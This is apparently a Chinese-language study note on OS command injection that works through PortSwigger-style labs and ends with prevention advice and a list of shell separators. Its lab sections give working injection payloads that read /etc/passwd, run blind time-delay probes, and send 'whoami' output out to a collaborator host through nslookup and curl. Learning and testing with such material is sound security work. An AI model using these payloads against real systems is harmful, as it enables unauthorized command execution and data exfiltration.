 ## OS command injection

OS command injection（操作系统命令注入）

![os-command-injection](./img/os-command-injection.svg)

操作系统命令注入也称为 shell 注入。它允许攻击者在运行应用程序的服务器上执行作系统 （OS） 命令，并且通常会完全破坏应用程序及其数据。

通常，攻击者可以利用作系统命令注入漏洞来破坏托管基础设施的其他部分，并利用信任关系将攻击转向组织内的其他系统。

## Injecting OS commands

Injecting OS commands（注入系统命令）

在此示例中，购物应用程序允许用户查看特定商店中是否有商品库存。此信息可通过 URL 访问：

```URL
https://insecure-website.com/stockStatus?productID=381&storeID=29
```

该功能是通过调用 shell 命令来实现的，其中 product 和 store ID 作为参数

```sh
stockreport.pl 381 29
```

攻击者可以提交以下输入来执行任意命令：

```
& echo aiwefwlguh &
```

`&` 字符是一个 shell 命令分隔符。在此示例中，它会导致一个接一个地执行三个单独的命令

返回给用户的输出是：

```
Error - productID was not provided
aiwefwlguh
29: command not found
```

## 如何防止 OS 命令注入攻击

1. 防止 OS 命令注入漏洞的最有效方法是永远不要从应用程序层代码中调用 OS 命令

2. 如果必须使用用户提供的输入调用 OS 命令，则必须执行强输入验证，有效验证的一些示例包括：

   - 根据允许值的白名单进行验证。

   - 验证输入是否为数字。

   - 验证输入是否仅包含字母数字字符，不包含其他语法或空格。

## labs

### 命令注入（简单情况）

`&`，`|`符号都可以

```
a & b   //先执行a再执行b，无论a是否执行成功(按位与)
a && b  //先执行a再执行b，只有a执行成功才会执行b(逻辑与)
a || b  //先执行a再执行b，只有a执行失败才会执行b(逻辑或)
a | b   //将a的执行结果传递给b(管道符)
```

`&`符号需要URL编码一下

```http
productId=1&storeId=1%26cat+/etc/passwd
```

![image-20250506181557622](./img/image-20250506181557622.png)

### 无回显命令注入

在`feedback`功能中有命令注入（盲注）：用户输入会被执行，但没有返回

假设一个网站允许用户提交关于该网站的反馈。用户输入他们的电子邮件地址和反馈信息。

然后，服务器端应用程序向站点管理员生成包含反馈的电子邮件。要 做到这一点，它调用邮件程序提交的细节：

```
mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com
```

```
email=x||ping+-c+10+127.0.0.1||
延迟10秒
email=1|sleep+10s|
```

![image-20250506221956186](./img/image-20250506221956186.png)

### 输出重定向 可写目录

`/var/www/images/`目录可写，图片显示存在目录遍历漏洞

```
email=||whoami>/var/www/images/whoami.jpg||
```

![image-20250506222736974](./img/image-20250506222736974.png)

![image-20250506222721301](./img/image-20250506222721301.png)

### 带外（out-of-band）

找不到可写目录，但是功能点确实有命令注入漏洞

使用DNS协议，nslookup

```
email=||nslookup+`whoami`.dbs45tazxnqrwfg6zq24jatlrcx3lv9k.oastify.com||
```

![image-20250506223800948](./img/image-20250506223800948.png)

利用HTTP协议，`curl`

```
email=||curl+`whoami`.dbs45tazxnqrwfg6zq24jatlrcx3lv9k.oastify.com||
```

![image-20250506223841872](./img/image-20250506223841872.png)

### 带外（out-of-band）数据

和上面的一样
```
email=||nslookup+`whoami`.ffy69ve11put0hk83s66ncxnve15pydn.oastify.com||
||nslookup+$(whoami).ffy69ve11put0hk83s66ncxnve15pydn.oastify.com|
```

![image-20250506224413917](./img/image-20250506224413917.png)

## 注入 OS 命令的方法

许多字符用作命令分隔符，允许将命令链接在一起。

以下命令分隔符适用于基于 Windows 和 Unix 的系统：

```
&
&&
|
||
```

以下命令分隔符仅适用于基于 Unix 的系统：

-  `;`
- 换行符 （`0x0a` 或 `\n`）

在基于 Unix 的系统上，还可以使用反引号或美元字符在原始命令中执行注入的命令：

```
`injected command`
$(injected command)
```

例子：

```
echo `whoami`
echo $(whoami)
```

